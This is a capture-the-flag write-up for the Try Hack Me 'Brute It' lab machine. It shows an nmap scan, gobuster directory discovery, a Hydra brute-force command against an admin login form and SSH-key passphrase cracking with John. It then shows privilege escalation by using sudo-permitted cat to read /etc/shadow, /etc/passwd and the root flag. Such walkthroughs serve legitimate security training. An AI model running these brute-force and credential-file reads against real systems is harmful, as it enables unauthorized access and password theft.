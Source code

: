 ```yaml
---
title: Try Hack Me - Brute It
date: 2020-11-30 01:17 +0300
categories: [Try Hack Me]
tags: [Linux, Brute-force, Hash cracking, Privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

# Nmap

First of all let's scan our machine and see what we have

<pre class="highlighter-rouge highlight">
nmap -sC -sV -O 10.10.238.144

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-29 
Nmap scan report for 10.10.238.144
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/29%OT=22%CT=1%CU=35597%PV=Y%DS=2%DC=I%G=Y%TM=5FC404
OS:77%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
</pre>

So I will go web page and try to find something interesting.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-lowercase-2.3-medium.txt -u http://10.10.238.144

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.144
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/29 23:31:43 Starting gobuster
===============================================================
/admin (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/admin</code>

<img src="/assets/img/bruteit_img/admin.png">

# Hydra
Turn on Hydra to crack password!

<pre>
hydra -l admin -P /opt/rockyou.txt 10.10.238.144 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
[80][http-post-form] host: 10.10.238.144   login: admin   password: ******
</pre>

This link helped me with hydra usage <a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a>

We got the username and password. 
Sign in to website and we get'll the Web flag.

<img src="/assets/img/bruteit_img/admin_panel.png">

Also we can see RSA private flag. After googling i found that we need it for conneting to ssh. I copied it and named <code class="language-plaintext highlighter-rouge">id_rsa</code>. We must find the password to connect to ssh.

Let's brute it with John!

# John The Ripper

This link helped me with John and cracking password with RSA private key 
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.238.144</pre>

Now you can read User.txt

<img src="/assets/img/bruteit_img/user_flag.png">

# Privilage Escalation
Let's see what we can do with john account
<pre>sudo -l</pre>

John user can use <code class="language-plaintext highlighter-rouge">cat</code>

<pre>
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
</pre>
I went to <code class="language-plaintext highlighter-rouge">gtfobins</code>

Hmmmm...I have no clue. And this guide - <a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a> taught me that i can use <code class="language-plaintext highlighter-rouge">cat</code> to grab <code class="language-plaintext highlighter-rouge">/etc/shadow</code> and <code class="language-plaintext highlighter-rouge">etc/passwd</code>.Let's do it

<pre>
LFILE=/etc/shadow
cat $LFILE
</pre>

<pre>
LFILE=/etc/passwd
cat $LFILE
</pre>

This article helped me with John and cracking password 
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>

After that I got the password and read the root flag
<img src="/assets/img/bruteit_img/rootflag.png">

We also could read the root flag without cracking password.
<pre>
LFILE=/root/root.txt
cat $LFILE
</pre>


# Userful for me references

<div><a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a></div>
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>
<div><a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a></div>
